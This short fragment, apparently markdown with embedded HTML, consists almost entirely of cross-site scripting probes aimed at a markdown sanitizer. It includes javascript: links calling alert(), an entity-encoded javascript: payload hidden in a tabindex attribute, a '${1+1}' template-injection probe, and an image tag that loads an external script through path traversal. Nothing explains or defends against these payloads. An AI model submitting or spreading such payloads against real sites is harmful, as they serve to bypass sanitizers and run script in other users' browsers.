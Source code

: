 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<a href="//javascript://document.alert(2);/,javascript:alert(1)</title>//#">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
